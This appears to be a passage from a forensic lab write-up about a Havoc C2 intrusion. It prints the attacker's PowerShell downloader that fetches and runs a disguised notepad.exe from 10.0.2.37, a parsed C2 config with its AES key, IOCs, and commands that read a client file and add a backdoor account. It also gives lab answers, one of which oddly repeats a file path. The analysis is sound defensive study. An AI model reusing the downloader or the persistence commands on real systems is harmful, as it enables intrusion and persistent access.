 - **install.ps1**

![[../../Image/Pasted image 20250423091359.png]]

```
$aysXS8Hlhf = "http://10.0.2.37:1337/notepad.exe";
$LA4rJgSPpx = "C:\Users\paco\Downloads\notepad.exe";
Invoke-WebRequest -Uri $aysXS8Hlhf -OutFile $LA4rJgSPpx;
$65lmAtnzW8 = New-ObjectSystem.Net.WebClient;$65lmAtnzW8.DownloadFile($aysXS8Hlhf, $LA4rJgSPpx);
Start-Process -Filepath $LA4rJgSPpx
```
- **Object list:**
![[../../Image/Pasted image 20250423095009.png]]
- **notepad.exe**
![[../../Image/Pasted image 20250423100437.png]]
- **Havoc Artifact** from network traffic
```
[+] Parsing Request
[+] Found Havoc C2
  [-] Agent ID: 0e9fb7d8
  [-] Magic Bytes: deadbeef
  [-] C2 Address: http://10.0.2.37/
  [+] Found AES Key
    [-] Key: 946cf2f65ac2d2b868328a18dedcc296cc40fa28fab41a0c34dcc010984410ca
    [-] IV: 8cd00c3e349290565aaa5a8c3aacd430
```
## IOCs
#### **IP Address:**
- hxxp[:]//10.0.2.37
#### **File:**
- /install.ps1
- /notepad.exe
- /notepad.exe

---
## Answer the question

- What is the SID of the user that the attacker is executing everything under?

![[Lab-writeups/Image/Pasted image 20250423100816.png]]

- What is the Link-local IPv6 Address of the server? Enter the answer exactly as you see it.

![[Pasted image 20250422232038.png]]
=> **fe80::e134:1b0c:c8d5:3020%6**

- The attacker printed a flag for us to see. What is that flag?

![[Pasted image 20250422232647.png]]

- The attacker added a new account as a persistence mechanism. What is the username and password of that account? Format is **username:password** 

![[Pasted image 20250422225827.png]]
```
dir C:\Users\paco\Desktop\
type C:\Users\paco\Desktop\Files\clients.csv
ipconfig
net user administrator WfD3hz3AXZ4n /add
```

- The attacker found an important file on the server. What is the full path of that file?

![[Pasted image 20250422232845.png]]
=> **C:\Users\paco\Desktop\Files\clients.csv**

- What is the flag found inside the file from question 5?

![[Pasted image 20250422232446.png]]
=> **C:\Users\paco\Desktop\Files\clients.csv**

![[Pasted image 20250423091003.png]]
